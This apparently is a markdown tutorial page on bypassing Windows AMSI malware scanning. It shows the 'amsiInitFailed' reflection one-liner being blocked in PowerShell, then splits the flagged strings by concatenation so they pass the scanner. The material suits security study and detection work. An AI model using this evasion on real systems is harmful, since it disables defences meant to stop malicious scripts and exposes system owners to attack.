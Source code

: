 # Basic Bypass
AMSI generally detects by the way a process is invoked via the command line an regexs. Thse regexs and basic manual bypass techniques are discussed [here](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/). Bascially, AMSI will look for commands which will disable AMSI detection. For example, a simple bypass can be created by concatenating AMSI strings together.
```powershell
PS C:\Users\nedry> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
At line:1 char:1
+ [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetF ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS C:\Users\nedry> AmsiUtils
At line:1 char:1
+ AmsiUtils
+ ~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS C:\Users\nedry> amsiInitFailed
At line:1 char:1
+ amsiInitFailed
+ ~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
PS C:\Users\nedry> 'Am'+'si'+'Ut'+'il'+'s'
AmsiUtils
PS C:\Users\nedry> 'am'+'si'+'In'+'it'+'Fa'+'il'+'ed'
amsiInitFailed
```
![Basic Bypass](img/basic-bypass.png)